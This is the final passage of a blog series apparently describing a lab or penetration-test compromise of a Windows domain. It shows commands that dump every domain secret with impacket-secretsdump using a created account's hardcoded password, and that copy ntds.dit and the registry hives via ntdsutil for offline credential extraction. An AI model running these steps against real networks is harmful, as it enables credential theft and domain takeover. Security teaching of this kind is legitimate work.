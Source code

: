 ![](http://news.baycode.eu/wp-content/uploads/2023/11/41.png)

After creating the account, we are free to dump all the secrets from the Domain Controller again.

```
impacket-secretsdump 'helpdesk:G3t_somehelp_br0@10.10.24.250'
```

![](http://news.baycode.eu/wp-content/uploads/2023/11/42.png)

What if we want to save the whole domain to our disk?

## Offline credentials extraction

We can dump these secrets manually, by copying the `ntds.dit`, `SAM`, `SECURITY`, and `SYSTEM` files from the Domain Controller to our local machine.

In order to do that, we can abuse the LOLBin `ntdsutil.exe`.

Let's log into the Domain Controller, and dump the credentials to disk.

```
mkdir C:\ProgramData\ntds
powershell "ntdsutil.exe 'ac i ntds' 'ifm' 'create full C:\ProgramData\ntds' q q"
```

![](http://news.baycode.eu/wp-content/uploads/2023/11/43.png)

The `ntds.dit` file will be saved in `Active Directory` directory, and the `SYSTEM` and `SECURITY` hives are saved in `registry`.

Now we can download these files with a preferred method, and read the secrets offline.

```
impacket-secretsdump -ntds <ntds> -system <system> -security <security>
```

In summary,

### We have compromised the domain and achieved persistence.

`https://en.wikipedia.org/wiki/Epic_Win`
![](http://news.baycode.eu/wp-content/uploads/2023/11/Epic_Win.png)

<div id="0x0F"></div>

# 0x0F Final Thoughts
<a href="#0x0E"><button class="nav-btn">Previous chapter</button></a>

In this two-part blog series, we've delved into the world of cyber attacks, uncovering the process of how they happen, starting from gathering information using OSINT techniques, to taking control of a whole computer network  - we've found a vulnerability, gained control of the initial pivot point, then found a valid low-privileged user on the domain, and from this point, we escalated to Domain Administrator.
